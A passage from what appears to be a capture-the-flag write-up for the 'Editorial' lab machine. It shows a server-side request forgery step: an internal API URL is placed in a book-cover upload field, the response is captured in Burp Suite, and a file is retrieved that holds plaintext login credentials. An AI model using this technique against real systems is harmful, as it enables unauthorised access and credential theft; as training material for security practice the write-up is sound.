 ```shell
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

This looks like API endpoints.

### Enumerating API Endpoints

Now we can try to check if we can get anything interesting from the metadata endpoints.

Note: I repeated the following process with all endpoints, but the one that gave us credentials was the /apt/latest/metadata/messages/authors. 

Lets visit it and see what we can get. 

Enter the following on the Book Cover URL, capture the request and examine the response on Burp Suite:

```shell
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

The response will look like this:

```shell
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 12 Nov 2024 20:30:56 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 51


static/uploads/b7f9ebc5-74b1-4c6c-abf6-c7d83934b2e3
```

Now we need to be fast and access the following URL:

```shell
http://editorial.htb/static/uploads/b7f9ebc5-74b1-4c6c-abf6-c7d83934b2e3
```

This allowed us to download the following file:

```shell
cat b7f9ebc5-74b1-4c6c-abf6-c7d83934b2e3 | jq
```

```shell
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
